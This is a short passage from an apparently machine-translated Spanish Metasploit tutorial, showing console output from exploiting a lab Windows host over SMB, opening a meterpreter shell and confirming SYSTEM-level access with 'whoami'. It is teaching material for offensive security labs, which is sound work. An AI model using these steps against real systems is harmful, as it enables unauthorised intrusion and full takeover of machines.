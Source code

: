 ```
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter> shell

C:\Windows\system32>

```

Ahora tenemos una carcasa en la máquina de destino, y podemos interactuar con ella.

### **MSF - interacción objetivo**

Módulos

```
C:\Windows\system32> whoami

whoami
nt authority\system

```

Este ha sido un ejemplo rápido y sucio de cómo`msfconsole`Puede ayudar rápidamente, pero sirve como un excelente ejemplo de cómo funciona el marco. Solo se necesitaba un módulo sin ningún`payload`selección,`encoding`o`pivoting`entre sesiones o trabajos.